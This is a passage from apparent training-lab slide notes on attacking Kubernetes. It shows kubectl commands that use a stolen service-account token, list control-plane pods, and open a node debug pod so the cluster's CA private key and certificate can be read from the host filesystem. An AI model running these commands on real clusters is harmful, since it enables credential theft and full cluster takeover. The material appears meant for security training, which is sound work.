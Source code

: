 This time `kubectl` used our stolen token, so now we're authenticating as the other service account with all the privileges. We'll have to make sure to include the TOKEN in future commands to keep using this account.

The big thing you'll should notice in the command output is a * on resources on the same line as a * on verbs. 
Since you can do every verb on every resource, this is kind of like root/domain admin for Kubernetes.

Let's find the API service pod, it'll be running in the kube-system namespace.

```
kubectl get pods -n kube-system --token="$TOKEN"
```

We're looking for the pod with "kube-apiserver-" in the name.

Great let's steal the PKI private key off the api server pod and take over the cluster
```
kubectl --token="$TOKEN" -n kube-system exec kube-apiserver-lab-control-plane -- cat /etc/kubernetes/pki/ca.key
```

### Slide 132 - Priv esc to golden tickets (lab cont.)

That last command doesn't work anymore, lets try something else...

Let's 'debug' the control plane using a debug pod

```
kubectl debug node/lab-control-plane -it --image=ubuntu --token=$TOKEN
```

You now have a session in this special debug pod, it nicely mounts the host filesystem for us so you can "debug" it
```
cd /host
```

Now we can go after that CA private key for the PKI
```
cat etc/kubernetes/pki/ca.key
```

Copy and paste this to notepad or something for later

Might as well grab the PKI CA cert too even though its already public its convenient.
```
cat etc/kubernetes/pki/ca.crt
```

Copy and paste this too


### Slide 134 - CA keys - golden tickets (kill shot)

Do this twice to back out of both shell instances (debug pod and pod you exec'ed to as developer account)
```
exit
```
